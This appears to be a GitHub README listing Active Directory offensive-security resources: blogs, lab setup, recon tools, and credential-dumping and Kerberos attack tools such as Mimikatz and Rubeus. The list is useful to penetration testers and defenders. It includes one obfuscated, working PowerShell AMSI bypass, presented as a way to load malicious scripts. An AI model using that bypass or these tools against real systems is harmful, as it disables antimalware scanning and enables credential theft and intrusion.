 # AD-Security-Resources


<H2>Huge list of AD security resources available below :</H2>
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/


<H2> Setting up active directory lab : <H2>
  <p>  https://github.com/outflanknl/Invoke-ADLabDeployer </p>



<H2> Bypassing Powershell execution policy issues : </H2>

<h3>Github links - AMSI Bypass for loading malicious scripts: <h3> 
  <p>  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell </p>
<h3> Something that works quickly </h3>
  <p>   sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} ) </p>

<H2> Recon of active directory objects :</h2>
<p>PowerView / Powersploit :</p>
  <p>https://github.com/PowerShellMafia/PowerSploit</p>

AD Module :
  https://github.com/samratashok/ADModule

Bloodhound
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound

Lateral Movement Automation :
  https://github.com/GoFetchAD/GoFetch

Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
Mimikatz : https://github.com/gentilkiwi/mimikatz

Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

Rubeus :
  https://github.com/GhostPack/Rubeus

<H2> Pingcastle - AD Security :
  https://github.com/vletoux/pingcastle



